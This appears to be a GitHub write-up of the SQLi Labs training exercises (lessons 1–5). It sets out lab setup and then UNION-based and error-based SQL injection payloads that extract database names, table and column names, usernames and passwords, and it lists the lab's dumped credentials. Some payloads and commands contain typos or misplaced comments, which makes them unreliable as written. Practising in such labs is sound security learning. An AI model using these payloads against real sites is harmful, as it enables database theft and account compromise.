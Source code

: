 # **SQLi Labs**

First we have to set up sqli labs
For that we can use the following commands
install apache2 webserver by > ````sudo apt install apache2````
install mysql by > ````sudo apt-get install mysql-srver````
install php7
git clone the repository of the lab and start all the services.

### **LESS1**

The website says,Please input the ID as parameter with numeric value.
So we can input ```?id=1 or 2,3,4,5.....```
when we put ```'``` we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by ```-- -``` or other comments in sql language.
We can dump contents

 ## *payloads to dump*
 We can get version of the server by using ```/?id=-1' union select 1,version(),3--+```
 We can get databasename of the server by using ```/?id=-1' union select 1,database(),3--+  databasename = security```
 Going to the terminal and going to mysql. If we type ``show databases;`` it shows databases
Then We can see security which is our database name. We can find more details ``use security`` with this sql command go into the database.
 Using ``show tables;`` we can see the tables. For looking into the tables ``desc emails;`` and so on...
 
### LESS2
The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- -``` doesn't work.
So we put ``'`` before the 1 and change it as ```?id='1'``` as payload.
Now we can comment it ```?id='1' -- - ```
Now we can dump contents using the payloads.

## payloads to dump
to find column_name ```?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+```
We have more payloads that can we do and get contents of database

#LESS3
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - nor ?id='1'-- - doesn't work.
So we put ) before the ' and change it as ?id=1)' as payload.
No we can comment it ?id=1)'-- -
Now we can dump contents using payloads

#payloads to dump
to find data /?id=-1') union select 1,group_concat(username),3 from users
We have more payloads that can we do and get contents of database

#LESS4
The website says,Please input the ID as parameter with numeric value.
We have to use ') ' as payload 
Now can comment it using ?id=1' ")-- -
Now we can dump contents using payloads

#payloads to dump 
?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users
We have more payloads that can we do and get contents of database.

#LESS5
In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use rand(),floor(),count() to get error

#payloads to dump
this will get database /?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get table names /?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get columns /?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+

#contents of database
1.databasename = security
2.tables = emails,referers,uagents,users
3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
